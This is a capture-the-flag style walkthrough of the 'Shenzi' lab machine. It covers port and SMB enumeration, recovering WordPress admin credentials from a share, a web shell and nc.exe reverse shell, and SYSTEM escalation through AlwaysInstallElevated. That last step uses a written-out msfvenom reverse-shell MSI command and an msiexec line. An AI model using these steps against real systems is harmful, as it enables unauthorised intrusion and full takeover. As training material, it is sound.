 # Shenzi

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.201.55 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 13:46 +08
Nmap scan report for 192.168.201.55
Host is up (0.18s latency).
Not shown: 65520 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
5040/tcp  open  unknown
7680/tcp  open  pando-pub
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

Lots of ports here. FTP doesn't allow for anonymous access.&#x20;

### SMB Access --> WP Creds

`smbmap` shows that there are a few shares we can access:

```
$ smbmap -u guest -p '' -H 192.168.201.55            
[+] IP: 192.168.201.55:445      Name: 192.168.201.55                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        IPC$                                                    READ ONLY       Remote IPC
        Shenzi                                                  READ ONLY
```

The share had a few interesting files:

```
$ smbclient -U guest //192.168.201.55/Shenzi         
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu May 28 23:45:09 2020
  ..                                  D        0  Thu May 28 23:45:09 2020
  passwords.txt                       A      894  Thu May 28 23:45:09 2020
  readme_en.txt                       A     7367  Thu May 28 23:45:09 2020
  sess_klk75u2q4rpgfjs3785h6hpipp      A     3879  Thu May 28 23:45:09 2020
  why.tmp                             A      213  Thu May 28 23:45:09 2020
  xampp-control.ini                   A      178  Thu May 28 23:45:09 2020
```

`passwords.txt` contained some credentials to a Wordpress instance, while the rest of the files were rather uninteresting:&#x20;

```
$ cat passwords.txt
1) MySQL (phpMyAdmin):

   User: root
   Password:
   (means no password!)

2) FileZilla FTP:

   [ You have to create a new user on the FileZilla Interface ] 

3) Mercury (not in the USB & lite version): 

   Postmaster: Postmaster (postmaster@localhost)
   Administrator: Admin (admin@localhost)

   User: newuser  
   Password: wampp 

4) WEBDAV: 

   User: xampp-dav-unsecure
   Password: ppmax2011
   Attention: WEBDAV is not active since XAMPP Version 1.7.4.
   For activation please comment out the httpd-dav.conf and
   following modules in the httpd.conf
   
   LoadModule dav_module modules/mod_dav.so
   LoadModule dav_fs_module modules/mod_dav_fs.so  
   
   Please do not forget to refresh the WEBDAV authentification (users and passwords).     

5) WordPress:

   User: admin
   Password: FeltHeadwallWight357
```

### Web Enumeration --> WP RCE

Port 80 shows the default XAMPP page:

<figure><img src="../../../.gitbook/assets/image (94) (5).png" alt=""><figcaption></figcaption></figure>

There was a PHPInfo page that we could view for more clues.&#x20;

<figure><img src="../../../.gitbook/assets/image (162) (3).png" alt=""><figcaption></figcaption></figure>

The only interesting thing to note is that the user is named `shenzi` on the machine. We need to be finding this wordpress instance. However, all directory scans failed to find any instance of `wp-content` or `wp-admin`.&#x20;

I was stuck here for a while, until I visited `/shenzi` to test, and it worked!

<figure><img src="../../../.gitbook/assets/image (153) (1).png" alt=""><figcaption></figcaption></figure>

With this, we can easily login to the admin panel and replace one of the PHP files with a web shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (180).png" alt=""><figcaption></figcaption></figure>

Then, we can get a reverse shell by downloading `nc.exe` onto the machine and executing it:

<figure><img src="../../../.gitbook/assets/image (57) (8).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### AlwaysInstallElevated --> SYSTEM

I ran `winPEAS.exe` to enumerate the machine for me. It picked up on AlwaysInstallElevated being misconfigured:

<figure><img src="../../../.gitbook/assets/image (545) (2).png" alt=""><figcaption></figcaption></figure>

Using this, we can generate an MSI payload using `msfvenom` and run it on the system, which would give us a reverse shell as the SYSTEM user.&#x20;

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.191 LPORT=21 -f msi -o shell.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: shell.msi
```

Afterwards, transfer this file over to the machine and run `msiexec` on it:

```
C:\Windows\Tasks>msiexec /quiet /qn /i shell.msi
```

This would give us a reverse shell as the SYSTEM user on a listener port:

<figure><img src="../../../.gitbook/assets/image (498).png" alt=""><figcaption></figcaption></figure>
